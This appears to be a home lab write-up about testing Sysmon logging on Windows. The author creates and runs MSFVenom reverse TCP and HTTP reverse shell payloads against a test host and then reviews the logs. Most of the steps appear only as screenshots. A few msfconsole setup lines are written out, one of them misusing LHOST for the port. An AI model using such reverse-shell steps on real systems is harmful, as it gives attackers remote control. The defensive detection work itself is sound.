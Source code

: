 ![Pasted image 20250118085800](https://github.com/user-attachments/assets/c366b6f6-ed9f-4d59-9774-823717ebe1c2)

I also reviewed the logs:

![Pasted image 20250118090333](https://github.com/user-attachments/assets/047e3bb2-145c-447f-80b3-2a1b931e340a)

> [!NOTE]  
> The Sysmon logs are under Applications and Services > Microsoft > Windows > Sysmon, Operational.

![Pasted image 20250118090501](https://github.com/user-attachments/assets/422e0505-5a6e-424b-a165-1fb669094ab2)

![Pasted image 20250118090826](https://github.com/user-attachments/assets/878c8d40-2ada-4195-b52d-54dcc421abbe)

### Reverse TCP Payload:

Now that the target host has Sysmon installed, I am going to test its logging capabilities. To do this, I created a TCP reverse shell payload using MSFVenom. A reverse TCP payload is a type of malicious payload where the target machine (victim) connects back to the attacker's system over a TCP connection, allowing the attacker to control the victim machine remotely.

I used the target host to download the payload as seen below:

![Pasted image 20250118093243](https://github.com/user-attachments/assets/6e001656-2153-4283-86dd-b609b2b8bccc)

Once downloaded, I executed the reverse shell payload:

![Pasted image 20250118091251](https://github.com/user-attachments/assets/d9ec2de4-eb03-4bd9-b283-5d0ea1d4054f)

Upon executing it, I took a look at the process logs that were generated by Sysmon:

![Pasted image 20250118091645](https://github.com/user-attachments/assets/f3051fde-42e3-419d-8e0c-dac36e976dc7)

I also filtered for the network traffic:

![Pasted image 20250118093557](https://github.com/user-attachments/assets/ee45d337-ab75-40c2-b1b3-f3ca64324729)

As seen above, the reverse shell was executed successfully. Next, I went ahead and executed a command to generate more logs:

![Pasted image 20250118141616](https://github.com/user-attachments/assets/64c076ea-1aff-4e7b-89ad-56290fc5e564)

Right away I was able to see that Sysmon was able to capture this action in the logs:

![Pasted image 20250118141833](https://github.com/user-attachments/assets/f7e2b24f-4b01-4056-b08a-24b4795f4676)

### HTTP Reverse Shell:

To further test, I generated a HTTP reverse shell. A HTTP reverse shell is a shell where the target machine (victim) connects back to an attacker's server over HTTP, allowing the attacker to control the target system remotely. Below are the commands I used:

```
msfconsole -q
set LHOST 192.168.1.128
set LHOST 5555
```
